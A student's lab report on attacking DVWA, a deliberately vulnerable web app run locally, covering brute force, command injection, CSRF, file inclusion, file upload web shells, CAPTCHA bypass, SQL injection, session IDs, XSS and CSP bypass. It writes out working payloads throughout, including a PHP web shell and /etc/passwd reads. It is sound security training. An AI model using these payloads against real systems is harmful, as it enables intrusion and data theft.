# DVWA Security Lab Report

## Student Information
- Name: Fowzi Ali
- Course: Cybersecurity: Theory, Tools
- Assignment: Application Security Testing
- Date: March 8th, 2026

---

# Table of Contents
- Environment Setup
- Vulnerability Testing
- Docker Inspection
- Security Analysis
- Bonus Task

---

# Environment Setup

## Docker Installation

Command used:

```
docker --version
```

Result:
Docker installed successfully.

Screenshot:


---

## DVWA Deployment

Command used:

```
docker pull vulnerables/web-dvwa
docker run -d -p 8080:80 --name dvwa vulnerables/web-dvwa
```

Verification:

```
docker ps
```

Result:
The DVWA container is running successfully.

Screenshot:


DVWA was accessible at:

http://localhost:8080

Screenshot:


---

# Vulnerability Testing

## Brute Force Authentication

Description:
The brute force vulnerability allows an attacker to attempt multiple username/password combinations until the correct credentials are discovered.

Testing Tool:
Burp Suite Intruder

---

### Security Level: Low

Payload Used:

username: admin  
password list:
123456
admin
letmein
karachi123
password

Steps Performed:

1. Intercept login request using Burp Suite.
2. Send request to Intruder.
3. Configure password field as payload position.
4. Load password wordlist.
5. Start attack.

Result:

Burp Suite successfully identified the correct password **password** for the admin account.

Observation:

The application allowed unlimited login attempts with no rate limiting or CAPTCHA protection.

Screenshot:


Explanation (Why it Worked):

The application does not implement any protection mechanisms such as:

- account lockout
- request throttling
- CAPTCHA
- IP blocking

Because of this, automated password guessing attacks succeed easily.

---

### Security Level: Medium

Payload Used:

Same password list as above.

Result:

The attack still works but is slower because the application introduces a delay between login attempts.

Screenshot:


Explanation (Why It Is Harder):

Medium security introduces basic protections such as:

- request validation
- delay between login attempts

This slows down automated brute force attempts but does not fully prevent them.

---

### Security Level: High

Payload Used:

Password wordlist:

123456
admin
letmein
karachi123
password

Steps Performed:

1. Open **Burp Suite** and enable Proxy Intercept.
2. Submit a login request in DVWA to capture the request.
3. Send the request to **Burp Intruder**.
4. Identify the **password parameter** as the payload position.
5. Extract the **user_token value** from the request.
6. Configure Intruder to update the CSRF token dynamically for each request.
7. Launch the brute force attack using the password wordlist.

Result:

Burp Suite successfully identified the correct password **password** even at High security level.

Screenshot:


Explanation (Why it Worked):

At High security level, DVWA introduces additional protections including:

- CSRF tokens
- request validation

Each login attempt requires a valid `user_token` parameter. However, by intercepting the request using Burp Suite and dynamically updating the CSRF token during the attack, the protection can be bypassed. This allows automated brute force attempts to continue until the correct password is discovered.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No protection |
| Medium | Successful | Basic validation and delay |
| High | Successful | CSRF token bypassed using Burp Suite |

---

## Command Injection

Description:
Command Injection occurs when an application passes unsanitized user input to the operating system shell. An attacker can inject additional commands to execute arbitrary system operations on the server. This vulnerability is commonly found in poorly validated system utilities such as ping or network tools.

---

### Security Level: Low

Payload Used:

```
127.0.0.1; ls
```

Other payloads:

```
127.0.0.1 && ls
127.0.0.1 | ls
127.0.0.1; whoami
```

Steps Performed:

1. Navigate to **DVWA → Command Injection**.
2. Set DVWA Security Level to **Low**.
3. Enter the payload in the **IP address field**.
4. Click **Submit**.

Result:

The application executed both the **ping command** and the injected command. The server returned the directory listing or system information.

Screenshot:


Explanation (Why it Worked):

At Low security level, DVWA directly inserts the user input into a system command:

```
ping -c 4 <user_input>
```

Since no input validation is applied, command separators like `;` allow attackers to execute additional commands.

---

### Security Level: Medium

Payload Used:

```
127.0.0.1 && ls
```

or

```
127.0.0.1 | ls
```

Result:

Some command separators may still work, allowing partial command execution.

Screenshot:


Explanation (Why It Is Harder):

Medium security introduces basic input filtering to block dangerous characters like `;`. However, other operators such as `&&` or `|` may still bypass the filter.

---

### Security Level: High

Payload Used:

```
127.0.0.1 || ls
```

Steps Performed:

1. Navigate to **DVWA → Command Injection**.
2. Set DVWA Security Level to **High**.
3. Enter the payload into the **IP address field**.
4. Click **Submit**.

Result:

The injected command executed successfully and the server returned the output of the additional command.

Screenshot:


Explanation (Why it Worked):

At High security level in DVWA, the application attempts to validate the input so that it resembles a valid IP address before executing the system command.

However, the filtering mechanism does not properly block certain shell operators such as `||`. In many Unix-like shells, the `||` operator allows the second command to execute if the first command fails.

By providing the input `127.0.0.1 || ls`, the attacker injects an additional command into the shell execution. This allows the `ls` command to run on the server, revealing the directory contents and demonstrating successful command injection despite the input validation.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No input validation |
| Medium | Successful | Basic filtering |
| High | Successful | Shell operator bypass |

---

### More PHP Payloads:
https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python

## Cross-Site Request Forgery (CSRF)

Description:
Cross-Site Request Forgery (CSRF) is a vulnerability that allows an attacker to trick a logged-in user into performing unintended actions on a web application. The attacker crafts a malicious request that is automatically executed by the victim's browser because the user is already authenticated.

---

### Security Level: Low

Payload Used:

```
http://localhost:8080/vulnerabilities/csrf/?password_new=hacked123&password_conf=hacked123&Change=Change
```

Steps Performed:

1. Navigate to **DVWA → CSRF**.
2. Set DVWA Security Level to **Low**.
3. Capture the password change request URL.
4. Modify the URL with a new password value.
5. Open the malicious URL while logged in.

Result:

The password for the logged-in user was successfully changed without any confirmation.

Screenshot:


Explanation (Why it Worked):

At Low security level, the application does not verify whether the request originated from the legitimate website. Since the user is already authenticated, the browser automatically includes the session cookie, allowing the request to execute successfully.

---

### Security Level: Medium

Payload Used:

```
http://localhost:8080/vulnerabilities/csrf/?password_new=hacked123&password_conf=hacked123&Change=Change
```

Result:

The attack becomes harder because the application checks the HTTP referrer header.

Screenshot:


Explanation (Why It Is Harder):

Medium security introduces a basic validation check that verifies whether the request originated from the same application using the HTTP referrer header. However, referrer headers can sometimes be bypassed or manipulated.

---

### Security Level: High

Payload Used:

Request captured using Burp Suite containing a valid CSRF token.

Example request:

http://localhost:8080/vulnerabilities/csrf/?password_new=hacked123&password_conf=hacked123&user_token=<VALID_TOKEN>&Change=Change

Steps Performed:

1. Navigate to **DVWA → CSRF**.
2. Set DVWA Security Level to **High**.
3. Open **Burp Suite** and enable the **Proxy Intercept** feature.
4. Change the password in DVWA to capture the request.
5. Send the captured request to **Repeater**.
6. Extract the **user_token value** from the request.
7. Reuse the token inside a crafted malicious request.

Result:

The password was successfully changed after replaying the request with a valid CSRF token.

Screenshot:


Explanation (Why it Worked):

At High security level, DVWA introduces a CSRF token (`user_token`) to protect the request.

However, the token can still be captured from a legitimate request using **Burp Suite** and reused in another request before it expires.

Since the server only checks whether the token exists and is valid, replaying the request with a captured token allows the attacker to bypass the CSRF protection.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No request validation |
| Medium | Successful | Referrer header check can be bypassed |
| High | Successful | CSRF token captured and replayed using Burp Suite |

---

## File Inclusion

Description:

File Inclusion vulnerabilities occur when a web application dynamically loads files based on user input without proper validation. Attackers can manipulate the file path to include unintended files from the server, potentially exposing sensitive information.

---

### Security Level: Low

Payload Used:

```
http://127.0.0.1:8080/vulnerabilities/fi/?page=file4.php
```

Steps Performed:

1. Navigate to **DVWA → File Inclusion**.
2. Set DVWA Security Level to **Low**.
3. Modify the `page` parameter in the URL.
4. Change the file value to `file4.php`.

Result:

The application successfully loaded **file4.php**, which is not directly accessible through the normal interface.

Screenshot:


Explanation (Why it Worked):

At Low security level, DVWA directly loads the file specified in the `page` parameter without validating or restricting the file name. Because of this, attackers can manually modify the URL to include any file that exists within the application's directory.

---

### Security Level: Medium

Payload Used:

```
http://127.0.0.1:8080/vulnerabilities/fi/?page=//etc/passwd
```

Steps Performed:

1. Navigate to **DVWA → File Inclusion**.
2. Set DVWA Security Level to **Medium**.
3. Modify the `page` parameter in the URL.
4. Use the payload `//etc/passwd` to attempt loading a system file.

Result:

The contents of the `/etc/passwd` file were displayed in the browser.

Screenshot:


Explanation (Why it Worked):

At Medium security level, DVWA attempts to prevent directory traversal attacks by filtering patterns like `../`. However, the filter is weak and does not properly block alternative path formats. By using `//etc/passwd`, the attacker bypasses the filter and forces the application to include the sensitive system file.

---

### Security Level: High

Payload Used:

```
http://127.0.0.1:8080/vulnerabilities/fi/?page=file:////etc/passwd
```

Steps Performed:

1. Navigate to **DVWA → File Inclusion**.
2. Set DVWA Security Level to **High**.
3. Modify the `page` parameter in the URL.
4. Use the `file://` protocol to attempt file inclusion.

Result:

The application successfully displayed the contents of the `/etc/passwd` file.

Screenshot:


Explanation (Why it Worked):

At High security level, DVWA attempts to restrict file inclusion by validating the file path and blocking common directory traversal techniques. However, the application does not properly validate URI schemes. By using the `file://` protocol, the attacker bypasses the input validation and forces the application to load a sensitive system file from the server.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No file validation |
| Medium | Successful | Directory traversal filter bypass |
| High | Successful | `file://` protocol bypass |

---

## File Upload

Description:

File Upload vulnerabilities occur when a web application allows users to upload files without properly validating the file type or content. Attackers can exploit this weakness by uploading malicious scripts such as web shells, which may allow remote command execution on the server.

---

### Security Level: Low

Payload Used:

A simple PHP web shell file.

Example file: `shell.php`

```
<?php system($_GET['cmd']); ?>
```

Steps Performed:

1. Navigate to **DVWA → File Upload**.
2. Set DVWA Security Level to **Low**.
3. Create a PHP shell file named `shell.php`.
4. Upload the file using the upload form.
5. Access the uploaded file through the browser.

Example access URL:

```
http://127.0.0.1:8080/hackable/uploads/shell.php?cmd=ls
```

Result:

The uploaded PHP shell executed successfully and allowed system commands to be run from the browser.

Screenshot:


Explanation (Why it Worked):

At Low security level, DVWA does not perform any validation on uploaded files. This allows attackers to upload executable PHP scripts directly to the server and execute them remotely.

---

### Security Level: Medium

Payload Used:

A PHP shell file disguised as an image.

Example filename:

```
shell.php.jpg
```

Steps Performed:

1. Navigate to **DVWA → File Upload**.
2. Set DVWA Security Level to **Medium**.
3. Rename the malicious file to `shell.php.jpg`.
4. Upload the file through the upload form.

Result:

The file upload succeeded because the application only checked the file extension superficially.

Screenshot:


Explanation (Why it Worked):

At Medium security level, DVWA attempts to restrict uploads by checking the file extension. However, the validation is weak and can be bypassed by disguising the PHP file with an allowed extension such as `.jpg`.

---

### Security Level: High

Payload Used:

A PHP shell file with a manipulated MIME type and disguised filename.

Example file content:

```
GIF89a;
<?php system($_GET['cmd']); ?>
```

Filename used in the request:

```
shell.php.jpeg
```

Steps Performed:

1. Navigate to **DVWA → File Upload**.
2. Set DVWA Security Level to **High**.
3. Intercept the file upload request using **Burp Suite**.
4. Modify the request to use the filename `shell.php.jpeg`.
5. Change the `Content-Type` header of the file upload request:

```
Content-Type: image/jpeg
```

6. Forward the modified request to the server.

Result:

The malicious PHP file was successfully uploaded and executed despite the file type restrictions.

Screenshot:


Explanation (Why it Worked):

At High security level, DVWA validates both the file extension and MIME type.  

- Adding `.jpeg` to the filename bypasses the extension check.  
- Changing the `Content-Type` header to `image/jpeg` bypasses MIME type validation.  
- Prepending `GIF89a;` to the file content tricks the server into recognizing it as a valid image.  

This allows the PHP code to be uploaded and executed on the server despite the high-level protections.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No file validation |
| Medium | Successful | File extension bypass |
| High | Successful | MIME type manipulation |

---

## Insecure CAPTCHA

Description:

An Insecure CAPTCHA vulnerability occurs when a CAPTCHA mechanism meant to prevent automated actions can be bypassed due to improper server-side validation. Attackers may manipulate requests or parameters to bypass CAPTCHA verification entirely.

---

### Security Level: Low

Payload Used:

```
step=2&password_new=test123&password_conf=test123&Change=Change
```

Steps Performed:

1. Navigate to **DVWA → Insecure CAPTCHA**.
2. Set DVWA Security Level to **Low**.
3. Enter a new password and confirmation password.
4. Intercept the request using **Burp Suite**.
5. Remove the CAPTCHA validation parameter and directly submit the password change request.

Result:

The password was successfully changed without solving the CAPTCHA.

Screenshot:


Explanation (Why it Worked):

At Low security level, DVWA does not properly validate the CAPTCHA on the server side. The application only relies on client-side validation, allowing attackers to bypass the CAPTCHA by directly modifying the request.

---

### Security Level: Medium

Payload Used:

```
step=2&password_new=test123&password_conf=test123&passed_captcha=true&Change=Change
```

Steps Performed:

1. Navigate to **DVWA → Insecure CAPTCHA**.
2. Set DVWA Security Level to **Medium**.
3. Intercept the password change request using **Burp Suite**.
4. Modify the parameter `passed_captcha` to `true`.
5. Forward the modified request.

Result:

The application accepted the request and the password was changed without correctly solving the CAPTCHA.

Screenshot:


Explanation (Why it Worked):

At Medium security level, DVWA uses a parameter (`passed_captcha`) to track whether the CAPTCHA was solved. However, this parameter is controlled by the client and not securely validated on the server, allowing attackers to manually set it to `true`.

---

### Security Level: High

Payload Used:

```
step=2&password_new=test123&password_conf=test123&g-recaptcha-response=hidd3n_valu3&Change=Change
```

Modified Header:

```
User-Agent: reCAPTCHA
```

Steps Performed:

1. Navigate to **DVWA → Insecure CAPTCHA**.
2. Set DVWA Security Level to **High**.
3. Intercept the password change request using **Burp Suite**.
4. Modify the request parameters by adding:

```
g-recaptcha-response=hidd3n_valu3
```

5. Modify the HTTP header:

```
User-Agent: reCAPTCHA
```

6. Forward the modified request to the server.

Result:

The password was successfully changed without solving the CAPTCHA challenge.

Screenshot:


Explanation (Why it Worked):

At High security level, DVWA attempts to verify CAPTCHA responses using the `g-recaptcha-response` parameter. However, the application does not properly validate the CAPTCHA response with the verification service.

By manually setting:

```
g-recaptcha-response=hidd3n_valu3
```

and modifying the request header to:

```
User-Agent: reCAPTCHA
```

the attacker tricks the application into assuming that the CAPTCHA verification was completed successfully, allowing the protected action to proceed.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No server-side CAPTCHA validation |
| Medium | Successful | Client-controlled CAPTCHA parameter |
| High | Successful | Request flow manipulation |

---

## SQL Injection

Description:

SQL Injection is a vulnerability that occurs when user input is not properly sanitized before being used in SQL queries. Attackers can manipulate input fields to execute unintended SQL commands, allowing them to access sensitive information from the database.

---

### Security Level: Low

Payload Used:

```
' UNION SELECT user, password FROM users#
```

Steps Performed:

1. Navigate to **DVWA → SQL Injection**.
2. Set DVWA Security Level to **Low**.
3. Enter the following payload in the **User ID** field:

```
' UNION SELECT user, password FROM users#
```

4. Click **Submit**.

Result:

The application displayed usernames and password hashes from the `users` table.

Screenshot:



Explanation (Why it Worked):

At Low security level, DVWA directly inserts user input into the SQL query without validation or filtering. The payload uses a **UNION SELECT** statement to retrieve data from another table in the database.

Example injected query:

```
SELECT first_name, last_name FROM users WHERE user_id = ''
UNION SELECT user, password FROM users;
```

---

### Security Level: Medium

Payload Used:

```
1 UNION SELECT user, password FROM users#
```

Attack Method:

Request modified using **Burp Suite**.

Steps Performed:

1. Navigate to **DVWA → SQL Injection**.
2. Set DVWA Security Level to **Medium**.
3. Intercept the request using **Burp Suite**.
4. Modify the `id` parameter in the request to:

```
1 UNION SELECT user, password FROM users#
```

5. Forward the modified request.

Result:

The application returned usernames and password hashes from the database.

Screenshot:



Explanation (Why it Worked):

At Medium security level, DVWA applies basic filtering to user inputs in the web interface. However, by intercepting the request using Burp Suite and modifying the parameter directly, the attacker can bypass these restrictions and inject a **UNION SELECT** query to extract sensitive data.

---

### Security Level: High

Payload Used:

```
' UNION SELECT user, password FROM users#
```

Steps Performed:

1. Navigate to **DVWA → SQL Injection**.
2. Set DVWA Security Level to **High**.
3. Enter the following payload in the **User ID** field:

```
' UNION SELECT user, password FROM users#
```

4. Submit the request.

Result:

The application displayed usernames and password hashes from the database.

Screenshot:



Explanation (Why it Worked):

At High security level, DVWA attempts to add stronger validation and restrict injection attempts. However, the application still fails to properly sanitize user input before executing SQL queries. The attacker can still perform **UNION-based SQL injection** to retrieve sensitive information from the database.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No input sanitization |
| Medium | Successful | Request manipulation using Burp Suite |
| High | Successful | Improper SQL query handling |

---

## SQL Injection (Blind)

Description:

Blind SQL Injection occurs when a web application is vulnerable to SQL injection but does not return database errors or query results directly. Instead, attackers infer information by observing differences in application behavior, such as changes in page responses or response time.

Two common techniques are used:

- Boolean-based Blind SQL Injection
- Time-based Blind SQL Injection

---

### Security Level: Low

Payload Used (True condition):

```
1' AND '1'='1'#
```

Payload Used (False condition):

```
1' AND '1'='2'#
```

Steps Performed:

1. Navigate to **DVWA → SQL Injection (Blind)**.
2. Set DVWA Security Level to **Low**.
3. Enter the following payload in the **User ID** field:

```
1' AND '1'='1'#
```

4. Submit the request and observe the response.
5. Repeat using:

```
1' AND '1'='2'#
```

Result:

- When the condition was **true**, the page displayed **"User ID exists in the database."**
- When the condition was **false**, the page displayed **"User ID is missing from the database."**

Screenshot:




Explanation (Why it Worked):

At Low security level, DVWA directly inserts the input into the SQL query without validation. By injecting boolean conditions, attackers can determine whether a condition evaluates to true or false based on the application's response. This allows attackers to extract database information character-by-character.

Example extraction payload:

```
1' AND SUBSTRING((SELECT first_name FROM users LIMIT 1),1,1)='a'#
```

---

### Security Level: Medium

Payload Used (True condition):

```
1 AND 1=1#
```

Payload Used (False condition):

```
1 AND 1=2#
```

Data Extraction Payload:

```
1 AND ASCII(SUBSTRING((SELECT password FROM users WHERE user_id=1),1,1)) = 53#
```

Steps Performed:

1. Navigate to **DVWA → SQL Injection (Blind)**.
2. Set DVWA Security Level to **Medium**.
3. Select a user ID from the dropdown menu.
4. Intercept the request using **Burp Suite**.
5. Modify the `id` parameter with the payload:

```
1 AND 1=1#
```

6. Forward the request and observe the response.
7. Use ASCII-based substring queries to extract characters from the password.

Result:

The application response revealed whether conditions were true or false, allowing extraction of password characters using ASCII values.

Screenshot:



Explanation (Why it Worked):

At Medium security level, the input comes from a dropdown menu, which restricts manual input. However, by intercepting the request with **Burp Suite**, attackers can modify the parameter directly and inject SQL queries. Using ASCII comparisons allows attackers to determine the exact characters in the password one by one. 

---

### Security Level: High

Payload Used:

```
1' AND SUBSTRING((SELECT password FROM users WHERE first_name='admin'),1,1)='5'#
```

Steps Performed:

1. Navigate to **DVWA → SQL Injection (Blind)**.
2. Set DVWA Security Level to **High**.
3. Click a user ID to trigger the request.
4. Intercept the request generated by the popup using **Burp Suite**.
5. Modify the `id` parameter with the payload above.
6. Send the request and observe whether the response indicates a valid user.

Result:

By testing characters one-by-one, the password for the **admin** user can be extracted.

Screenshot:



Explanation (Why it Worked):

At High security level, DVWA adds `LIMIT 1` to the query and modifies the interface so the request is triggered through a link popup. However, the backend query is still vulnerable to SQL injection. Attackers can still use boolean conditions with `SUBSTRING()` to extract sensitive data from the database character-by-character. 

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No input validation |
| Medium | Successful | Input restrictions bypassed using Burp Suite |
| High | Successful | Query still injectable using boolean-based blind SQL |

---

## Weak Session IDs

Description:

Weak Session ID vulnerabilities occur when session identifiers follow predictable patterns. Attackers can exploit this weakness by guessing or calculating valid session IDs, which may allow them to hijack active user sessions and gain unauthorized access.

---

### Security Level: Low

Observed Cookie Values:

```
dvwaSession=1
dvwaSession=2
dvwaSession=3
```

Steps Performed:

1. Navigate to **DVWA → Weak Session IDs**.
2. Set DVWA Security Level to **Low**.
3. Click the **Generate** button multiple times.
4. Open **Browser Developer Tools → Application → Cookies**.
5. Observe the value of the `dvwaSession` cookie.

Result:

The session ID increases sequentially every time the **Generate** button is pressed.

Screenshot:



Explanation (Why it Worked):

At Low security level, the application generates session IDs using a simple incrementing number. Since the values follow a predictable sequence (1, 2, 3, 4, ...), an attacker can easily guess valid session IDs and potentially hijack other user sessions.

---

### Security Level: Medium

Observed Cookie Values:

```
1731162760
1731162765
1731162771
```

Steps Performed:

1. Navigate to **DVWA → Weak Session IDs**.
2. Set DVWA Security Level to **Medium**.
3. Click the **Generate** button several times.
4. Inspect the `dvwaSession` cookie using **Browser Developer Tools** or **Burp Suite**.

Result:

The cookie values appear as large numbers that change based on time.

Screenshot:



Explanation (Why it Worked):

At Medium security level, the session ID is generated using the **Unix timestamp (`time()`)**. Because timestamps are predictable and based on server time, attackers can estimate the value of valid session IDs and potentially exploit the session management system.

---

### Security Level: High

Observed Cookie Values:

```
eccbc87e4b5ce2fe28308fd9f2a7baf3
a87ff679a2f3e71d9181a67b7542122c
e4da3b7fbbce2345d7772b0674a318d5
```

Steps Performed:

1. Navigate to **DVWA → Weak Session IDs**.
2. Set DVWA Security Level to **High**.
3. Click the **Generate** button multiple times.
4. Capture the `dvwaSession` cookie values using **Browser Developer Tools** or **Burp Suite**.

Result:

The session ID appears as a hash value rather than a simple number.

Screenshot:



Explanation (Why it Worked):

At High security level, the session ID is generated by hashing a sequential number using **MD5**. While the hash makes the session ID look random, the underlying number is still predictable. Because of this, attackers could theoretically compute future session IDs.

---

### Security Comparison

| Security Level | Session Generation Method | Security Risk |
|----------------|--------------------------|---------------|
| Low | Incremental numbers | Very predictable |
| Medium | Unix timestamp | Predictable with time estimation |
| High | MD5 hash of sequential numbers | Underlying pattern still predictable |

---

## Cross-Site Scripting (DOM)

Description:

DOM-based Cross-Site Scripting (DOM XSS) occurs when client-side JavaScript reads user-controlled input from the URL and writes it directly into the webpage’s Document Object Model (DOM) without proper sanitization. This allows attackers to inject and execute malicious JavaScript in the victim's browser.

---

### Security Level: Low

Payload Used:

```
http://127.0.0.1:8080/vulnerabilities/xss_d/?default=<script>alert('DOM XSS')</script>
```

Steps Performed:

1. Navigate to **DVWA → XSS (DOM)**.
2. Set DVWA Security Level to **Low**.
3. Observe the URL parameter `default=English`.
4. Replace the parameter value with the payload above.
5. Reload the page.

Result:

A JavaScript alert box appears in the browser confirming successful DOM XSS execution.

Screenshot:



Explanation (Why it Worked):

At Low security level, the application does not sanitize the `default` parameter before inserting it into the DOM. This allows arbitrary JavaScript code to execute in the browser.

---

### Security Level: Medium

Payload Used:

```
http://127.0.0.1:8080/vulnerabilities/xss_d/?default=</select><svg/onload=alert(1)>
```

Steps Performed:

1. Navigate to **DVWA → XSS (DOM)**.
2. Set DVWA Security Level to **Medium**.
3. Attempt a basic `<script>` payload (which is filtered).
4. Use the payload above to break out of the `<select>` element.
5. Reload the page.

Result:

The SVG element executes the `onload` event and triggers a JavaScript alert.

Screenshot:



Explanation (Why it Worked):

At Medium security level, DVWA filters `<script>` tags but still allows other HTML elements. By injecting an SVG element with an `onload` event handler, attackers can execute JavaScript without using a `<script>` tag.

---

### Security Level: High

Payload Used:

```
http://127.0.0.1:8080/vulnerabilities/xss_d/?default=English&</select><svg onload=alert('1')>
```

Steps Performed:

1. Navigate to **DVWA → XSS (DOM)**.
2. Set DVWA Security Level to **High**.
3. Attempt to modify the `default` parameter.
4. Bypass the filter by appending an additional parameter using `&`.
5. Inject the payload above and reload the page.

Result:

The injected SVG element executes JavaScript and displays an alert box.

Screenshot:



Explanation (Why it Worked):

At High security level, DVWA attempts to restrict modifications to the `default` parameter. However, the filter can be bypassed by appending another parameter using `&`. This allows attackers to inject HTML elements with JavaScript event handlers that execute when the page loads.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No input sanitization |
| Medium | Successful | `<script>` filtered but SVG events allowed |
| High | Successful | Filter bypass using additional parameter |

---

## Cross-Site Scripting (Reflected)

Description:

Reflected Cross-Site Scripting (Reflected XSS) occurs when a web application immediately returns user-supplied input in the HTTP response without properly validating or sanitizing it. Attackers can craft malicious input containing JavaScript code that executes in the victim's browser.

---

### Security Level: Low

Payload Used:

```
<script>alert('Reflected XSS')</script>
```

Steps Performed:

1. Navigate to **DVWA → XSS (Reflected)**.
2. Set DVWA Security Level to **Low**.
3. Enter the payload above into the input field.
4. Click **Submit**.

Result:

A JavaScript alert box appears in the browser confirming successful script execution.

Screenshot:



Explanation (Why it Worked):

At Low security level, DVWA does not sanitize user input before reflecting it back into the webpage. Because the input is directly embedded into the HTML response, the injected JavaScript executes immediately.

---

### Security Level: Medium

Payload Used:

```
<sCrIpT>alert('Reflected XSS')</sCrIpT>
```

Steps Performed:

1. Navigate to **DVWA → XSS (Reflected)**.
2. Set DVWA Security Level to **Medium**.
3. Enter the payload above in the input field.
4. Click **Submit**.

Result:

The alert box appears, indicating that the injected JavaScript executed successfully.

Screenshot:



Explanation (Why it Worked):

At Medium security level, DVWA attempts to block `<script>` tags using a blacklist filter. However, the filter is **case-sensitive**, meaning that mixed-case versions like `<sCrIpT>` bypass the filter and allow the script to execute.

---

### Security Level: High

Payload Used:

```

```

Steps Performed:

1. Navigate to **DVWA → XSS (Reflected)**.
2. Set DVWA Security Level to **High**.
3. Enter the payload above into the input field.
4. Click **Submit**.

Result:

The browser triggers the `onerror` event of the injected image element and displays a JavaScript alert.

Screenshot:



Explanation (Why it Worked):

At High security level, DVWA blocks variations of the `<script>` tag using stronger filtering. However, the application still allows other HTML elements. By injecting an `` element with an `onerror` event handler, attackers can execute JavaScript without using the blocked `<script>` tag.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No input sanitization |
| Medium | Successful | Case-sensitive script filter |
| High | Successful | Event handler injection |

---

## Cross-Site Scripting (Stored)

Description:

Stored Cross-Site Scripting (Stored XSS) occurs when a web application stores malicious user input in a database and later displays it to other users without proper sanitization. When the stored data is viewed, the malicious script executes automatically in the victim's browser.

---

### Security Level: Low

Payload Used:

```
<script>alert(document.domain)</script>
```

Steps Performed:

1. Navigate to **DVWA → XSS (Stored)**.
2. Set DVWA Security Level to **Low**.
3. Enter any name in the **Name** field.
4. Enter the payload above in the **Message** field.
5. Click **Sign Guestbook**.

Result:

The payload is stored in the database and executes automatically whenever the page loads.

Screenshot:



Explanation (Why it Worked):

At Low security level, the application does not sanitize or validate user input before storing it in the database. When the stored message is displayed on the webpage, the injected JavaScript executes in the browser.

---

### Security Level: Medium

Payload Used:

```

```

Additional Bypass Technique:

Using **Inspect Element**, modify the input field attributes:

```
size="100"
maxlength="100"
```

Steps Performed:

1. Navigate to **DVWA → XSS (Stored)**.
2. Set DVWA Security Level to **Medium**.
3. Right-click the **Message** field and select **Inspect**.
4. Modify the input attributes:
   - Change `maxlength` to a larger value.
   - Change `size` to allow longer input.
5. Enter the payload above in the message field.
6. Submit the form.

Result:

The payload is stored successfully and executes when the guestbook page loads, displaying the user's cookies.

Screenshot:




Explanation (Why it Worked):

At Medium security level, DVWA attempts to limit input length using HTML attributes like `maxlength`. However, these restrictions are enforced only on the client side. By modifying the HTML attributes using **Inspect Element**, attackers can bypass the restriction and inject malicious JavaScript code.

---

### Security Level: High

Payload Used:

```
<body onload=alert('FowziIsTheBest')>
```

Additional Bypass Technique:

Using **Inspect Element**, modify the input attributes:

```
size="100"
maxlength="100"
```

Steps Performed:

1. Navigate to **DVWA → XSS (Stored)**.
2. Set DVWA Security Level to **High**.
3. Right-click the **Message** field and open **Inspect Element**.
4. Modify the attributes `size` and `maxlength` to allow longer input.
5. Insert the payload above into the message field.
6. Submit the form.

Result:

The malicious payload is stored in the database and triggers an alert whenever the page loads.

Screenshot:




Explanation (Why it Worked):

At High security level, DVWA implements stronger input filtering but still fails to completely sanitize HTML elements. By bypassing client-side restrictions using **Inspect Element**, attackers can inject alternative HTML elements such as `<body>` with JavaScript event handlers like `onload`, allowing script execution when the page loads.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No input sanitization |
| Medium | Successful | Client-side input restriction bypass |
| High | Successful | Incomplete HTML filtering |

---

## Content Security Policy (CSP) Bypass

Description:

Content Security Policy (CSP) is a browser security mechanism designed to prevent attacks such as Cross-Site Scripting (XSS) by restricting which resources (scripts, images, styles, etc.) can be loaded and executed by a webpage. However, if CSP rules are misconfigured or overly permissive, attackers may still bypass these restrictions and execute malicious scripts.

---

### Security Level: Low

Observation:

Using **Burp Suite**, we inspected the HTTP response headers and identified the CSP rules that allow scripts to be loaded from the following external domains:

```
https://pastebin.com
example.com
code.jquery.com
https://ssl.google-analytics.com
```

Payload Used:

Create a script on Pastebin or a similar paste service containing:

```
alert('CSP bypass')
```

Steps Performed:

1. Navigate to **DVWA → CSP Bypass**.
2. Set DVWA Security Level to **Low**.
3. Intercept the request using **Burp Suite** and examine the **Content-Security-Policy** header.
4. Notice that external scripts are allowed from certain domains.
5. Create a paste containing the malicious script.
6. Copy the **raw script URL**.
7. Paste the raw script URL into the input field on the page.
8. Click **Include**.

Result:

The page loads the external script from the allowed domain and executes it, displaying a pop‑up message.

Screenshot:



Explanation (Why it Worked):

At Low security level, the CSP configuration allows scripts to be loaded from several external domains. Because sites like Pastebin allow user-generated content, attackers can host malicious scripts there and load them into the vulnerable application.

---

### Security Level: Medium

Payload Used:

```
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">
alert("YouJustGotHackedMate");
</script>
```

Steps Performed:

1. Navigate to **DVWA → CSP Bypass**.
2. Set DVWA Security Level to **Medium**.
3. Inspect the page source and observe the **nonce value** used in the CSP rule.
4. Use the same nonce value in a malicious `<script>` tag.
5. Insert the payload above into the input field.

Result:

The injected script executes successfully and displays the alert message.

Screenshot:



Explanation (Why it Worked):

At Medium security level, DVWA attempts to restrict script execution using a **nonce-based CSP**. However, the nonce value is predictable or reused within the page. By copying the same nonce value in a malicious script tag, the attacker can bypass the CSP restriction and execute arbitrary JavaScript.

---

### Security Level: High

Attack Method:

Request manipulation using **Burp Suite**.

Modified Payload:

```
alert("FowziIsQuiteLiterallyTheBest")//
```

Steps Performed:

1. Navigate to **DVWA → CSP Bypass**.
2. Set DVWA Security Level to **High**.
3. Intercept the request using **Burp Suite**.
4. Locate the callback parameter in the request.
5. Replace the callback function:

Original:

```
solveSum
```

Modified:

```
alert("FowziIsQuiteLiterallyTheBest")//
```

6. Forward the modified request to the server.

Result:

The browser executes the injected JavaScript and displays the alert pop-up.

Screenshot:




Explanation (Why it Worked):

